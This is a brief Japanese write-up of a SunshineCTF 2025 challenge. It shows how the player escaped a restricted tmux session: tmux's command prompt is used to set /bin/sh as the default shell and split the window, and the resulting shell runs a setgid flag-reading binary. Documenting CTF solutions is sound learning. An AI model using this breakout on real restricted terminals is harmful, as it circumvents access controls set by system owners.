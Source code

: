 # SanshineCTF2025　Space Is My Banner
## 問題文
I did it again.

This time I'm sure I accessed a satellite.

I'm scared, it's giving me a warning message when I log in.

I think this time I may have gone too far... this seems to be some top security stuff...

socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:省略

またやってしまった。

今回は間違いなく衛星にアクセスした。

怖い、ログインすると警告メッセージが出るんだ。

今回はやりすぎたかもしれない…どうやら最高機密レベルのものらしい…

socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:省略

## 解法
とりあえずアクセスしてみると、tmuxというCUI上でGUI操作できるやつにアクセスできる。
tmuxの機能で好きなコマンドを実行できるので、それを使う。
```
Ctrl + b
```
の後に：（コロン）を入力するとtmuxのコマンドを入力できる。
```
set default-shell /bin/sh
split-window
```
これでコンソールが表示される。
あとはls -laしてcat-flagという実行ファイルがあるので実行するだけ
```
$ ls -al
total 80
dr-xr-xr-x    1 root     root          4096 Sep 27 14:22 .
drwxr-xr-x    1 root     root          4096 Sep 27 16:31 ..
-r-xr-sr-x    1 root     flag-read     18512 Sep 27 14:22 cat-flag
-r-xr-xr-x    1 root     root          5213 Sep 23 20:52 challenge.sh
-r-xr-x---    1 root     root         18592 Sep 27 14:22 drop-perms
-r-xr-xr-x    1 root     root           367 Sep 23 20:52 fake-term.sh
-r--r-----    1 root     flag-read        82 Sep 23 20:52 flag.txt
-r--r--r--    1 root     root          5619 Sep 23 20:52 system_logs.txt
$ ./cat-flag
sun{省略}
```
余談
非常にくやしい　ぐぐり力もっとあったら解けたかも